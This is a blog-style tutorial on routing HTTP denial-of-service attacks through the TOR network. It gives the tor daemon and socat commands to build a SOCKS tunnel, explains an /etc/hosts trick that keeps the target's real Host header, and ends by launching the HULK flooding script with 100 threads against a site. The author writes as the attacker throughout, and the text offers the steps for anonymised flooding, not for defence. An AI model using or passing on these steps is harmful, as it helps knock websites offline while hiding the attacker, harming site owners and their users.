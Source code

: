 I&#8217;ll be talking more about <acronym title="HyperText Transfer Protocol">HTTP</acronym> <acronym title="Denial-of-Service">DoS</acronym> techniques and tools in a further article since this paper aims on describing the routing of these attacks through the <acronym title="The Onion Router">TOR</acronym> network.

Just to get things started I&#8217;ll do a very quick overview on how to open a single <acronym title="The Onion Router">TOR</acronym> tunnel.

## Basic <acronym title="The Onion Router">TOR</acronym> routing

Basic <acronym title="The Onion Router">TOR</acronym> routing involves a <acronym title="The Onion Router">TOR</acronym> instance and `socat` to be set up on the attacker system.

The basic premise is starting <acronym title="The Onion Router">TOR</acronym> normally

{{< highlight bash >}}
tor --RunAsDaemon 1 --CookieAuthentication 0 --HashedControlPassword "yourpasswordhashhere" --ControlPort 9999 --PidFile tor.pid --SocksPort 9050 --DataDirectory data/tor
{{< /highlight >}}

Then start the `socat` tunneling

{{< highlight bash >}}
sudo socat TCP4-LISTEN:80,fork SOCKS4A:localhost:192.168.192.1:80,socksport=9050
{{< /highlight >}}

The tunnel is now up and running. It will forward all traffic on local port 80 (:80) to remote port 80 (:80) through the <acronym title="The Onion Router">TOR</acronym> network under my local socket (localhost:9050)

## <acronym title="HyperText Transfer Protocol">HTTP</acronym> &#8216;Host&#8217; header gotcha

In most webserver environments, you can&#8217;t just reach the destination web page just by driving by its <acronym title="Internet Protocol">IP</acronym> address since multiple domains may be hosted under a single <acronym title="Internet Protocol">IP</acronym> address. This is called [Virtual-Host][3].

Thus, driving my attacks to http://localhost would mess up the attack since the <acronym title="HyperText Transfer Protocol">HTTP</acronym> <acronym title="Denial-of-Service">DoS</acronym> tool would use the address supplied as the `Host` header. As is very likely that the <acronym title="Internet Protocol">IP</acronym> address you are attacking does&#8217;nt have the &#8216;localhost&#8217; virtual-domain so you need to specify the true hostname on deploying the attack.

For that, `/etc/hosts` comes to the rescue. Just add to your hosts file:

{{< highlight text >}}
127.0.0.1 example.com www.example.com
{{< /highlight >}}

So you may now use your <acronym title="The Onion Router">TOR</acronym> tunnel freely

{{< highlight bash >}}
./hulk.py http://www.example.com -t 100
{{< /highlight >}}


 [1]: http://www.oreillynet.com/onlamp/blog/2005/07/launching_attacks_via_tor.html
 [2]: http://ha.ckers.org/slowloris/
 [3]: http://en.wikipedia.org/wiki/Virtual_hosting
 [4]: http://blog.databigbang.com/distributed-scraping-with-multiple-tor-circuits/